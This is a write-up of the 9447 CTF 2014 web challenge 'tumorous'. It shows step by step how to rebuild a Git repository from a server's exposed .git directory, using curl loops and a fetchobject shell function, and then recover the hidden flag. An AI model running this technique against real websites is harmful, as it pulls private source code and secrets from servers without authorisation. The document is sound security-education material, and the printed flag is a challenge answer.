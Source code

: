 # 9447 CTF 2014: tumorous

**Category:** Web
**Points:** 100
**Description:**

> They are following me. They are after my token. I have to hide it somewhere. I’m not very good at hiding.
>
> [tumorous.9447.plumbing](http://tumorous.9447.plumbing/)

## Write-up

**Note:** This challenge is a harder version of [the _bashful_ challenge](https://github.com/ctfs/write-ups/tree/master/9447-ctf-2014/bashful#readme).

The page at <http://tumorous.9447.plumbing/> contains:

> 13/2/2004: I learned how to html, yay!
> 12/4/2004: I learned how to use git, yay!
> 13/4/2004: Hidden my 'repository' so people can't access it. I have a feeling I will need to protect something soon.
> 08/9/2004: Forged a token from the whispering iron. It is very dear to me, I should protect it.
> 10/9/2004: I put my token in a text file to protect it from alien mind readers from planet Zblaargh.
> 10/9/2004: I can't forget my token. What do I do?
> 11/9/2004: I panicked and deleted the token. It is the work of evil doers.
> 12/9/2004: My token is lost. My life has no meaning now. I'm going to watch Louie season 4.

The second line hints at Git, so let’s try visiting <http://tumorous.9447.plumbing/.git/>. It returns a 403 Forbidden status code, indicating that the `.git` directory exists on the server, although directory listings are disabled.

An easy way to figure out which files are usually present in a `.git` folder is to create a new Git repository.

```bash
$ cd $(mktemp -d /tmp/tumorous-XXXX)

$ git init

$ cd .git

$ ls -Rls
total 24
8 -rw-r--r--   1 mathias  wheel   23 Nov 30 15:24 HEAD
8 -rwxr--r--   1 mathias  wheel  137 Nov 30 15:24 config
8 -rw-r--r--   1 mathias  wheel   73 Nov 30 15:24 description
0 drwxr-xr-x  11 mathias  wheel  374 Nov 30 15:24 hooks
0 drwxr-xr-x   3 mathias  wheel  102 Nov 30 15:24 info
0 drwxr-xr-x   4 mathias  wheel  136 Nov 30 15:24 objects
0 drwxr-xr-x   4 mathias  wheel  136 Nov 30 15:24 refs

./hooks:
total 80
 8 -rwxr-xr-x  1 mathias  wheel   452 Nov 30 15:24 applypatch-msg.sample
 8 -rwxr-xr-x  1 mathias  wheel   896 Nov 30 15:24 commit-msg.sample
 8 -rwxr-xr-x  1 mathias  wheel   189 Nov 30 15:24 post-update.sample
 8 -rwxr-xr-x  1 mathias  wheel   398 Nov 30 15:24 pre-applypatch.sample
 8 -rwxr-xr-x  1 mathias  wheel  1642 Nov 30 15:24 pre-commit.sample
 8 -rwxr-xr-x  1 mathias  wheel  1352 Nov 30 15:24 pre-push.sample
16 -rwxr-xr-x  1 mathias  wheel  4951 Nov 30 15:24 pre-rebase.sample
 8 -rwxr-xr-x  1 mathias  wheel  1239 Nov 30 15:24 prepare-commit-msg.sample
 8 -rwxr-xr-x  1 mathias  wheel  3611 Nov 30 15:24 update.sample

./info:
total 8
8 -rw-r--r--  1 mathias  wheel  240 Nov 30 15:24 exclude

./objects:
total 0
0 drwxr-xr-x  2 mathias  wheel  68 Nov 30 15:24 info
0 drwxr-xr-x  2 mathias  wheel  68 Nov 30 15:24 pack

./objects/info:

./objects/pack:

./refs:
total 0
0 drwxr-xr-x  2 mathias  wheel  68 Nov 30 15:24 heads
0 drwxr-xr-x  2 mathias  wheel  68 Nov 30 15:24 tags

./refs/heads:

./refs/tags:

```

Now we have a list of files and folders we can look for on the server: `http://tumorous.9447.plumbing/.git/HEAD`, `http://tumorous.9447.plumbing/.git/config`, etc. Let’s recreate the expected directory structure locally, and download these files:

```bash
mkdir -p /tmp/restored-git-repo/.git;
cd /tmp/restored-git-repo/.git;
mkdir -p {hooks,info,objects/{info,pack},refs/{heads,tags}};
for file in HEAD config description info/exclude refs/heads/master; do
  curl "http://tumorous.9447.plumbing/.git/${file}" > "${file}";
done;
cd ..;
```

Whenever we run a Git command in the repository, we get an error:

```bash
$ git log
fatal: bad object HEAD
```

Let’s see what `HEAD` refers to:

```bash
$ cat .git/HEAD
ref: refs/heads/master

$ cat .git/refs/heads/master
3dbda5576912236328494b11f9361dca66c0218a
```

Due to [the way Git stores objects](http://git-scm.com/book/en/v2/Git-Internals-Git-Objects), the object `3dbda5576912236328494b11f9361dca66c0218a` is expected to be at `.git/objects/3d/bda5576912236328494b11f9361dca66c0218a`. Let’s write a function to download such objects based on their hash:

```bash
function fetchobject() {
  hash="${1}";
  dir="${hash:0:2}";
  file="${hash:2:38}";
  mkdir -p ".git/objects/${dir}";
  path=".git/objects/${dir}/${file}";
  curl -s "http://tumorous.9447.plumbing/${path}" > "${path}";
}
```

Now we can easily download the first missing piece, i.e. object `3dbda5576912236328494b11f9361dca66c0218a`:

```bash
$ fetchobject 3dbda5576912236328494b11f9361dca66c0218a
```

Now, let’s try running `git log` again:

```bash
$ git log
error: Could not read 043a18366cb0b2ab31c0f9b14a755a8e597a8b6a
fatal: Failed to traverse parents of commit 3dbda5576912236328494b11f9361dca66c0218a
```

Another missing object! Let’s download it and try again:

```bash
$ fetchobject 043a18366cb0b2ab31c0f9b14a755a8e597a8b6a

$ git log
commit 3dbda5576912236328494b11f9361dca66c0218a
Author: root <root@ip-172-31-5-48.ap-southeast-2.compute.internal>
Date:   Sat Nov 29 03:21:33 2014 +0000

    My token now exists!

commit 043a18366cb0b2ab31c0f9b14a755a8e597a8b6a
Author: John Doe <fsck@you.me>
Date:   Tue Oct 7 08:32:28 2014 +0000

    I'm new to this repo stuff
```

Yay! We can now view the commit log. Effectively this is now a _bare_ Git repository: it contains the repository data but not the actual files. Let’s restore those as well:

```bash
$ git config --local --bool core.bare false

$ git checkout -f
error: unable to read sha1 file of token (0d2fce4623aa8cd8fcaae969c9af4c73e0b4bfe0)

$ fetchobject 0d2fce4623aa8cd8fcaae969c9af4c73e0b4bfe0

$ git checkout -f
error: unable to read sha1 file of index.html (3bba60ef48578d0619aff067c7f6596c1426ce96)

$ fetchobject 3bba60ef48578d0619aff067c7f6596c1426ce96

$ git checkout -f

$ ls
index.html token

$ cat token
9447{IM_SITTING_ON_A_PILE_OF_GOLD}
```

The flag is `9447{IM_SITTING_ON_A_PILE_OF_GOLD}`.

## Other write-ups and resources

* [Write-up by Hypnosec](https://github.com/hypnosec/writeups/blob/master/2014/9447-ctf/web/tumorous.md)
